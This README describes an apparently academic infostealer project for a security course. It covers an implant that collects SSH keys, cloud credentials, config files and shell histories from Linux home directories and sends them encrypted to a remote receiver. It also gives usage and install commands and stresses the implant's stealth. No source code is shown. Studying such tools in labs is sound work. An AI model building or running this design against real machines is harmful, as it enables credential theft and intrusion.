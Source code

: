 # tmp363-infostealer

## Description
This project consists of two Python-based tools: `tmp363` (implant) and `server363` (receiver). Together, they simulate an infostealer malware that collects sensitive files from Linux user home directories and exfiltrates them to a remote server.

### tmp363 (Implant)

- Recursively scans all home directories under `/home/` for:
  - `~/.ssh/`
  - `~/.config/`
  - Cloud provider directories: `~/.aws/`, `~/.gcloud/`, `~/.azure/`
  - Shell history files matching `.*_history`

- Archives and compresses these files **in-memory** using Python’s `ZipFile` and `io.BytesIO`
- Encrypts the archive using Fernet (symmetric encryption) with a key loaded from `.env`
- Sends the encrypted archive to the server using a raw TCP socket
- Does not write anything to disk or print anything to stdout/stderr

### server363 (Receiver)

- Listens on a specified IP and port for incoming TCP connections
- Receives and decrypts the transmitted archive using the same Fernet key
- Extracts the contents to a folder named
```sh
YYYY-MM-DD:HH:MM:SS_<victim-ip>
```
- Keeps listening for the next client (handles one at a time)


## Usage

- Implant
``` sh
python3 tmp363.py <server_ip> <port>
```

- Server
``` sh
python3 server363.py <listen_ip> <port>
```

## Installation

### Prerequistes
- **Python 3.x**
- **pip** (Python package manager)


#### **Installation Steps**
1. **Clone the Repository**
  ```sh
  git clone https://github.com/kailash-anand/tmp363-infostealer.git
  cd tmp363-infostealer
  ```

2. **(Optional) Create a Virtual Environment**
  ```sh
  python3 -m venv venv
  source venv/bin/activate
  ```

3. **Install Dependencies**
  ```sh
  pip install cryptography
  pip install dotenv
  ```

## Notes
- All operations in the implant are performed in memory; no temporary files are created.
- Fernet provides authenticated symmetric encryption, ensuring confidentiality and integrity of exfiltrated data.
- The tools are intended only for academic use in controlled environments (Kali VM for CSE 363).



